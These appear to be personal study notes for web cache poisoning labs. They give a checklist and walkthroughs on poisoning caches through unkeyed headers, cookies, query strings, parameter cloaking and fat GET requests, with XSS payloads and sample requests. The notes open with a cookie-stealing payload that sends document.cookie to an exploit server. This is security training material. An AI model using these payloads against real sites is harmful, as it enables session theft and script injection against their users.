 Burp Scan Is gotty : )

Checklist:
```
Poison to leak cookie:
document.location='https://<exploit-server>?cookie='+document.cookie;

0. Use cache buster with a random param or Origin header
1. Use Param Miner extension
2. X-Forwarded-Host unkeyed and used in an absolute URL = X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
3. A cookie is being reflected its content and hiting cache = fehost=someString"-alert(1)-"someString
4. Test multi cache header poison 
5. Check if user agents Vary on response, maybe need to retrieve it with xss
6. Unkeyed string? /?evil='/><script>alert(1)</script>
7. Unkeyed parameters with Param Miner? ?utm_content='/><script>alert(1)</script>
8. Parameter cloacking? param that gets reflected but keyed:
	1. Try duplicating param in head or body
	2. Try using an unkeyed param such as: setCountryCode=idkbro&utm_content=foo;setCountryCode=alert(1)
9. XSS vulnerability that is not directly exploitable due to browser URL-encoding. Take advantage of the cache's normalization process to exploit this vulnerability -> GET /random</p><script>alert(1)</script><p>foo
	1. Copy URL when cache hits, send to victim
```
##### With unkeyed header
```
Add a cache-buster query parameter, such as ?cb=1234.
Add the X-Forwarded-Host header with an arbitrary hostname, such as example.com, and send the request.
Observe that the X-Forwarded-Host header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at /resources/js/tracking.js.

Replay the request and observe that the response contains the header X-Cache: hit. This tells us that the response came from the cache.

Go to the exploit server and change the file name to match the path used by the vulnerable response:
/resources/js/tracking.js

In the body, enter the payload alert(document.cookie) and store the exploit.
Open the GET request for the home page in Burp Repeater and remove the cache buster.

Add the following header, remembering to enter your own exploit server ID:
X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Send your malicious request. Keep replaying the request until you see your exploit server URL being reflected in the response and X-Cache: hit in the headers.
```

##### Unkeyed cookie
A cookie is being reflected content on javascript and hiting cache.
```
fehost=someString"-alert(1)-"someString
```


##### Multi Header Poisoning cache header
```
GET /resources/js/tracking.js
...
X-Forwarded-Host: exploit-0a49001804f8a59482f069e8010b0050.exploit-server.net
X-Forwarded-Scheme: nothttps


Response:
HTTP/2 302 Found
Location: https://exploit-0a49001804f8a59482f069e8010b0050.exploit-server.net/resources/js/tracking.js
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 1
X-Cache: hit
Content-Length: 0


RIGHT CLICK COPY URL TO TEST PAYLOAD with ?cb=12345

SPAM SEND TILL POISONED withuth buster , RELOAD HOME PAGE TO TEST
```


##### X-Host but with user agent vary
Using the parameter miner extension we find the x-host header
```
X-Host: malware.com
Connection: close
...
...
Vary: User-Agent
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
...
   <body>
        <script type="text/javascript" src="//malware.com/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
```

XSS post coment to retrieve the user agent
```
<img src="exploit server">
```
```
...
X-Host: exploit-0ad9008c03e4756580a348aa019600fd.exploit-server.net
Connection: close
```
with a payload of alert(document.cookie) on the exploit server

##### Unkeyed query string
Use Origin: header as a cache buster
query /?evil=test gets reflected on the output
add payload
```
GET /?evil='/><script>alert(1)</script>
```
Remove query string to simulate victim, but still with cache buster, remove cache buster and add payload again till cache hits

#### unkeyed parameter
```
Observe that the home page is a suitable cache oracle. Notice that you get a cache miss whenever you change the query string. This indicates that it is part of the cache key. Also notice that the query string is reflected in the response.

using Param Miner extension we find that utm_content is supported

We confirm that the parameter is unkeyed by adding it to the query string and checking that we still get a cache hit

use a cache buster in the query such as &test=xyz along with the payload ?utm_content='/><script>alert(1)</script>

Remove payload copy URL and confirm that the alrt works, remove cache buster and add payload till hits to solve.

```

##### Parameter cloaking
```
Potential XSS on setCountryCode parameter, but we cannot cache it because its keyed. (adding 'aaa' will result in a miss cache)
Try polluting with duplicated parameter but doesnt work.

Find utm_content is not keyed
setCountryCode=idkbro&utm_content=foo;setCountryCode=alert(1)

This polutes cache, as we still get a hit when adding aaas to the final of the string
```

##### Web cache poisoning via a fat GET request
callback function can be modify and hit cache if duplicated parameter in the body
![[Pasted image 20240128175036.png]]
Reload Home page
